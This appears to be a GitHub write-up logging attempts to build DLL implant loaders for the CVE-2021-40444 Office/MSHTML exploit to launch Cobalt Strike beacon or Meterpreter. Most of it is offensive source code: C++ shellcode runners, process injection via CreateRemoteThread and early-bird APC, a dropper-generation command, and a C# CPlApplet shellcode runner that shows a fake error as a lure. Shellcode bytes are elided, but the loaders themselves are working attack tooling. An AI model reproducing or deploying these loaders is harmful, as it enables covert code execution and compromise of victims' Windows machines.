




# DLL & CVE-2021-40444 Play

## Overview

Playing with [lockedbyte/CVE-2021-40444](https://github.com/lockedbyte/CVE-2021-40444), trying to throw beacon/meterp with DLL. 

The DLL is executed via MHTML by an `ActiveXObject` CPL script:

```html
ActiveXObjectVAR2['Script']['location'] = '.cpl:../../../AppData/Local/Temp/championship.inf',
```

## Background

Over the past couple of months I've bumped heads with unmanaged DLLs a few times and I am failing to fully grasp the ins and outs. I faced exploitation of the CVE-2021-40444 vulnerability after first grappling with the "mixed mode" asembly used to exploit the [Telerik Deserialization CVE-2019-18935](https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui#mixed-assembly) vulnerability. Next, I faced it while producing payloads for the [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675) DLL - another case of an unmanaged DLL. This "write up" details (mostly) fails while trying to produce a DLL that executes an implant in the context of CVE-2021-40444.

## Summary

| Attempt | Result | Description |
| ------- | ------ | ----------- |
| [Brownie](#brownie) | Fail   | side-load payload, unmanaged c++ |
| [Csharp](#attempt--csharp)  | Fail   | csharp runners using dll export libs |
| [Injection](#attempt--process-injection) | Semi Success | c++ unmanaged DLL with hardcoded PID |
| [Earlybird](#attempt--earlybird) | Semi Fail | c++ unmanaged thread injection works with rundll, not CPL |
| [CreateRemoteThread](#attempt--createremotethread) | Semi Fail | c++ unmanaged CreateRemoteThread, works with rundll, not CPL |
| [DllsForHackers](#attempt--dllsforhackers) | Success | c++ unmanged dropper |
| [CPLResourceRunner](#attempt--cplresourcerunner) | Success | c# managed runner |

## Unresolved
1. `rundll32` requires entry point, however a process "attach" or "import" does not. Why?
	- For example, something like the Brownie DLL runner does not have an entry point besides `DllMain`. So, `rundll32 brownie.dll` does nothing. However, throwing a bullshit entry point in there, `rundll32 brownie.dll,aaa` does execute the implant. I believe this is because the `DLL_PROCESS_ATTACH` is hit upon providing ANY entry point. How can one *test* the attach without an entry point?
2. Why do things like `QueueUserApc` and `WaitForSingleObject`/`CreateRemoteThread` not work in unmanaged DLL context?

---

The following details various attempts. A stock meterp or beacon dll were attempted first with no sign of execution. Theory is the CPL execution process was ending before c&c could be established.

## Attempt: Brownie

The payload: [slaeryan/AQUARMOURY/Brownie](https://github.com/slaeryan/AQUARMOURY/tree/master/Brownie)

### Assumption

As I've used this payload for side-loading successfully, this should work 1-2-3.

### Result

Fail. Not even a glimpse of a beacon.

### Lessons

The process context the DLL is executed under ("CPL context") ends to quickly for a beacon to establish and function.

### Source 

```cpp
// Inline-Execute shellcode using CreateThread()
// ------------------------------------------------------------------------
BOOL execute_shellcode(LPSTR payload, SIZE_T payloadLen) {
	// Init some important variables
	void* exec_mem;
	BOOL ret;
	HANDLE threadHandle;
    DWORD oldProtect = 0;
	
	// Allocate a RW memory buffer for payload
	exec_mem = VirtualAlloc(0, payloadLen, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Write payload to new buffer
	RtlMoveMemory(exec_mem, payload, payloadLen);
	
	// Make new buffer as RX so that payload can be executed
	ret = VirtualProtect(exec_mem, payloadLen, PAGE_EXECUTE_READ, &oldProtect);

	// Now, run the payload
	if (ret != 0) {
		threadHandle = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
		WaitForSingleObject(threadHandle, -1);
	}

	Sleep(9000);

	return TRUE;
}

// Call after DLL is loaded
// ------------------------------------------------------------------------

void go(HMODULE hMod) {
	// Retrieve payload from resource section
	[...]

	// Decrypt the payload
	if (!aes_decrypt(ciphertext, iv, AESKEY)) {
		return;
	}

	// Convert the payload hex string to bytes
	payload = hex_to_byte_string(ciphertext);

	// Execute the payload locally
	execute_shellcode((LPSTR)payload.c_str(), payload.length());
}

// DllMain
// ------------------------------------------------------------------------

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
	HANDLE threadHandle;
	DWORD dwThread;

	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		exec();
		// Init Code here
	    threadHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)go, hinstDLL, 0, NULL);
        CloseHandle(threadHandle);
        exec2();
		break;

	case DLL_THREAD_ATTACH:
		// Thread-specific init code here
		break;

	case DLL_THREAD_DETACH:
		// Thread-specific cleanup code here
		break;

	case DLL_PROCESS_DETACH:
		// Cleanup code here
		break;
	}

	// The return value is used for successful DLL_PROCESS_ATTACH
	return TRUE;
}
```

## Attempt: Csharp

Two variations of a payload were attempted- one, using the [UnmanagedExports](https://www.nuget.org/packages/UnmanagedExports), another using [DllExport](https://github.com/3F/DllExport). Mainly, trying to export `DllMain` or `Start`, or anything useful, really. Csharp was selected to quickly attempt process hollowing & early bird techniques for runners previously written in c#. 

### Assumption

The runners are proven to work in a managed context, however this context doesn't play nice with rundll, so this may not work. 

### Result

Fail. 

### Lessons

Twofold- can't run unmanaged code like this and its tough to properly (impossible?) generate a 'managed looking' DLL with `DllMain` proper. 

### Source - UnmanagedExport Variation

```csharp
using RGiesecke.DllExport;
using System;
using System.Net;
using System.Runtime.InteropServices;
using System.Windows;

namespace DllRunnerPoc
{
    static class Program
    {
        const int DLL_PROCESS_ATTACH = 0;
        const int DLL_THREAD_ATTACH = 1;
        const int DLL_THREAD_DETACH = 2;
        const int DLL_PROCESS_DETACH = 3;

        static Action process_attach = () => MessageBox.Show(@"process_attach");
        static Action thread_attach = () => Console.WriteLine(@"thread_attach");
        static Action thread_detach = () => Console.WriteLine(@"thread_detach");
        static Action process_detach = () => Console.WriteLine(@"process_detach");


        [DllExport("DllMain", CallingConvention.StdCall)]
        public static bool DllMain(int hModule, int ul_reason_for_call, IntPtr lpReserved)
        {

            switch (ul_reason_for_call)
            {
                case DLL_PROCESS_ATTACH:
                    process_attach();
                    break;
                case DLL_THREAD_ATTACH:
                    thread_attach();
                    break;
                case DLL_THREAD_DETACH:
                    thread_detach();
                    break;
                case DLL_PROCESS_DETACH:
                    process_detach();
                    break;
            }

            return true;
        }
    }

}
```

### Source - DllExport

```csharp
namespace Runner
{
    public class Runner
    {
        public Runner()
        {
            // shellcode process injection route 
            [...]
        }
        [STAThread]
        public static void Main(string[] args)
        {
            new Runner();
        }
        public static void Execute()
        {
            new Runner();
        }
    }
    public class Exports
    {
        [DllExport]
        public static void Start(IntPtr hwnd,
        IntPtr hinst,
        string lpszCmdLine,
        int nCmdShow)
        {
            new Runner();
        }
    }
}
```

## Attempt: Process Injection

Leaving c# and heading back to c/c++, the next attempt used the `SimpleThreadInjection` source from [theevilbit/injection](https://github.com/theevilbit/injection).

### Assumption

The theory at this point was that Brownie was failing because the process was ending and I needed to migrate before that happens.

### Result

Success - sort of. The DLL worked and even better, it worked in the CPL context. Caveat was that the process ID was hard coded. Once the runner was confirmed to work, it was onto writing a routing to 1) hunt an x86 process 2) the runner has access to.

### Lessons

Somewhat viable option in need of some "smarts" to nail down a target process. Iterating process, owners, and architecture in c++ did not come easy to me. Thinking maybe there is an easier way, next I looked to hollow/earlybird.

### Source

```cpp
extern "C" __declspec(dllexport) void runner()
{
    unsigned char shellcode[] = "[...]";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi("2716"))); // <-- hardcoded
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        runner();
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

## Attempt: Earlybird

An attempt to migrate to another process before the Office/Word process ended. Source was nabbed from [theevilbit/injection](https://github.com/theevilbit/injection). 

### Assumption

Straight injection works, so why shouldn't this? 

### Result

Fail. All around. The DLL didn't run in a `rundll32` context, nor the CPL context. An odd thing - instead of 1 process being created, 2 were; 1 a child of the other. However, a straight copy and paste to a c++ console application worked flawlessly. 





### Lessons

Unmanaged DLL does not jive with `QueueUserApc`

### Source

```cpp
int runner()
{
	char tProc[] = "c:\\windows\\syswow64\\notepad.exe";

    unsigned char sc_x64[] = "[...]";

    LPSTARTUPINFOA pStartupInfo = new STARTUPINFOA();
	LPPROCESS_INFORMATION pProcessInfo = new PROCESS_INFORMATION();
	CreateProcessA(0, tProc, 0, 0, 0, CREATE_SUSPENDED, 0, 0, pStartupInfo, pProcessInfo);

	if (!pProcessInfo->hProcess)
		return -1;

	LPVOID lpBaseAddress;
	lpBaseAddress = VirtualAllocEx(pProcessInfo->hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	SIZE_T* lpNumberOfBytesWritten = 0;
	BOOL resWPM;
	resWPM = WriteProcessMemory(pProcessInfo->hProcess, lpBaseAddress, (LPVOID)sc_x64, sizeof(sc_x64), lpNumberOfBytesWritten);

	DWORD i = (DWORD)lpBaseAddress;
	DWORD qapcret = QueueUserAPC((PAPCFUNC)lpBaseAddress, pProcessInfo->hThread, NULL);	
	ResumeThread(pProcessInfo->hThread);
	
	return 0;
}

void go(HMODULE hMod) {
	runner();
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
	HANDLE threadHandle;
	DWORD dwThread;

	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		threadHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)go, hinstDLL, 0, NULL);
		CloseHandle(threadHandle);
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

## Attempt: CreateRemoteThread

Source was taken from [sevrosecurity](https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/)

### Assumption

Again, based on the Injection runner "working", a simple migrate *should* work. Less confident after weirdness with `QueueUserApc`.

### Result

Fail, mostly. The DLL worked fine on its own, however in the CPL context there was no sign of the spawned process. Chalked up to racing the CPL process end and loosing.

### Lessons

Need to figure out how to properly debug this. Not sure if the issue is the execution process ending or issues calling `WaitForSingleObject` / `CreateRemoteThread`.

### Source

```cpp
void inject() {
    unsigned char shellcode[] = "[...]";
	STARTUPINFO si;
    PROCESS_INFORMATION pi;
    LPVOID allocation_start;
    SIZE_T allocation_size = sizeof(shellcode);
    LPCWSTR cmd;
    HANDLE hProcess, hThread;

    ZeroMemory(&si, sizeof(si));
    ZeroMemory(&pi, sizeof(pi));
    si.cb = sizeof(si);
    cmd = TEXT("C:\\Windows\\syswow64\\notepad.exe");

    if (!CreateProcess(
        cmd,							// Executable
        NULL,							// Command line
        NULL,							// Process handle not inheritable
        NULL,							// Thread handle not inheritable
        FALSE,							// Set handle inheritance to FALSE
        CREATE_NO_WINDOW,	            // Do Not Open a Window
        NULL,							// Use parent's environment block
        NULL,							// Use parent's starting directory 
        &si,			                // Pointer to STARTUPINFO structure
        &pi								// Pointer to PROCESS_INFORMATION structure (removed extra parentheses)
    )) {
        return;
    }
    WaitForSingleObject(pi.hProcess, 3000); 

    allocation_start = VirtualAllocEx(pi.hProcess, NULL, allocation_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, allocation_start, shellcode, allocation_size, NULL);
    CreateRemoteThread(pi.hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)allocation_start, NULL, 0, 0);

    return;
}

void go(HMODULE hMod) {
	inject();
}
```

## Attempt: DllsForHackers

Source was taken from Mr Un1k0d3r's [DllsForHackers](https://github.com/Mr-Un1k0d3r/DLLsForHackers).

### Assumption

Let's try a different approach. The `dropexec` template will allow us to successfully execute an unmanaged DLL but with the bonus of being able to leverage that execute to drop a c# (or whatever) runner and execute that. Advantages: use of tried and true runners. Disadvantage: dropping more files to disk, not achieving goal of a DLL runner. 

### Result

Success. Works in both a `rundll32` and CPL context, drops a c# executable to disk and runs it for a beacon.

### Lessons

Not sure. Mr Un1k0d3r is brilliant and the DllsForHackers repo does *not* contain a shellcode runner. Maybe DLLs aren't good for this. 

### Source

See the [dropexec](https://github.com/Mr-Un1k0d3r/DLLsForHackers/blob/master/templates/dropexec.c) template.

```powershell
python .\GenDll.py -t dropexec -com "C:\Program Files\CodeBlocks\MinGW\bin\x86_64-w64-mingw32-g++.exe" -fn qapc.exe -fp C:\payloads\QueueApc.exe
```



## Attempt: CPLResourceRunner

Source was taken from Mr Un1k0d3r's [rvrsh3ll/CPLResourceRunner](https://github.com/rvrsh3ll/CPLResourceRunner).

### Assumption

Back to c#. The runner in the repo exports the `CplApplet` entry point, required by the CPL context. This *should* work, as previous work with the repo in the past succeeds when using c# and the control command. 

### Result

Success. Works in both a `control.exe` and CPL context, executes and runs shellcode for a beacon.

### Lessons

In this case, the CPL context, and with the proper export (`CPLApplet`), c# can be used. 

### Source

See the [rvrsh3ll/CPLResourceRunner](https://github.com/rvrsh3ll/CPLResourceRunner) repo for further details. 

```csharp
[DllExport("CPlApplet", CallingConvention = CallingConvention.StdCall)]
public unsafe static IntPtr CPlApplet()
{
    // Change this for your pretext or comment out for lateral movement
    MessageBox.Show("Action Failed Error Number 2950");
    
    string scode = ExtractResource("ControlPanelMaker.Resources.txt");
    byte[] blob = Convert.FromBase64String(scode);
    byte[] shellcode = Decompress(blob);

    if (shellcode.Length == 0) return IntPtr.Zero;

    MemoryMappedFile mmf = null;
    MemoryMappedViewAccessor mmva = null;

    try
    {
        // Create a read/write/executable memory mapped file to hold our shellcode..
        mmf = MemoryMappedFile.CreateNew("__shellcode", shellcode.Length, MemoryMappedFileAccess.ReadWriteExecute);

        // Create a memory mapped view accessor with read/write/execute permissions..
        mmva = mmf.CreateViewAccessor(0, shellcode.Length, MemoryMappedFileAccess.ReadWriteExecute);

        // Write the shellcode to the MMF..
        mmva.WriteArray(0, shellcode, 0, shellcode.Length);

        // Obtain a pointer to our MMF..
        var pointer = (byte*)0;
        mmva.SafeMemoryMappedViewHandle.AcquirePointer(ref pointer);

        // Create a function delegate to the shellcode in our MMF..
        var func = (GetPebDelegate)Marshal.GetDelegateForFunctionPointer(new IntPtr(pointer), typeof(GetPebDelegate));

        // Invoke the shellcode..
        return func();
    }
    catch
    {
        return IntPtr.Zero;
    }
    finally
    {
        mmva?.Dispose();
        mmf?.Dispose();
    }
}
```

